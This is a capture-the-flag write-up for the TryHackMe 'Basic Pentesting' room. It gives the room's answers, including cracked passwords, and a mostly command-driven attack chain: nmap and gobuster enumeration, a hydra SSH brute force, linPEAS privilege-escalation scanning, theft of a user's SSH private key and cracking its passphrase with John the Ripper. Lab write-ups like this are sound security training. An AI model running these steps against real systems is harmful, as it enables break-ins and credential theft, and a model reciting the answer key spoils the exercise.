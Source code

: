 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, gobuster, enum4linux, hydra, linPEAS, JohnTheRipper]
---
```

![Basic Pentesting](./assets/basicpentesting.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)

> **Difficulty level:** Easy

## Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

### Questions

Q1. What is the name of the hidden directory on the web server(enter name without /)?

> development

Q2. What is the username?

> jan

Q3. What is the password?

> armando

Q4. What service do you use to access the server(answer in abbreviation in all caps)?

> SSH

Q5. What is the name of the other user you found(all lower case)?

> kay

Q6. What is the final password you obtain?

> heresareallystrongpasswordthatfollowsthepasswordpolicy$$


### MyWalk

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```terminal
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```

Now I'll enumerate any directories available:

```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
<span style="color:green;">Q1 done</span>

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```

Users 'kay' and 'jan' found.

<span style="color:green;">Q2 & Q5 done</span>

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4

```
jan:armando <span style="color:green;">Q3 done</span>

Now I'll try to login with shh credentials:
```bash
ssh jan@10.10.40.46
```
After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:

```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
Checking the target:

```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
Run it (on target):

```bash
./linpeas.sh | tee linlog.txt
```
Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```

Now run john with the key against the rockyou.txt:

```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
we can see the paraphrase is 'beeswax'
Lets try to login again as kay.

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```

Entering the paraphrase password 'beeswax' and success!  
Now is possible to read the pass.bak file and  
<span style="color:green;">Q6 done</span>

## Tools
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper
